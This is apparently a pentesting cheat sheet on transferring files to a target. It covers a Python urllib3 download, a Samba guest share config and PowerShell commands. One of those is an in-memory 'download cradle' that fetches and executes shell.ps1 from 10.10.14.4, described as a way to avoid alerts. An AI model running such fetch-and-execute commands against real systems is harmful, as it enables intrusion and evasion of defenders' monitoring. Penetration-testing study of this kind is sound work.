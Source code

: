 ```python
import urllib3, shutil

url = 'https://www.python.org/'
c = urllib3.PoolManager()
filename = "test.txt"
with c.request('GET', url, preload_content=False) as res, open(filename, 'wb') as out_file:
    shutil.copyfileobj(res, out_file)
```

## Powershell

In-memory download cradle *handy for pentesting as nothing gets written to disk so there is less chance of triggering a related alert*

```bash
IEX(New-Object Net.WebClient)downloadString('http://10.10.14.4/shell.ps1')
```

### Standard Web Request

```bash
iwr ‘http://10.10.14.4/shell.ps1’ -Outfile C:\Windows\temp\shell.ps1

Invoke-WebRequest -Url http://10.10.14.4/shell.ps1 -Outfile C:\Windows\temp\shell.ps1
```

## SMB

### Standard SMB

1. Modify /etc/samba/smbd.conf. Add the following to the bottom:

```bash
[global]
workgroup = WORKGROUP
server string = Samba Server %v
netbios name = tengu
security = user
map to guest = bad user
name resolve order = bcast host
dns proxy = no
bind interfaces only = yes

[gorilla]
path = /var/www/html/pub
writable = no
guest ok = yes
guest only = yes
read only = yes
directory mode = 0555
force user = nobody
```
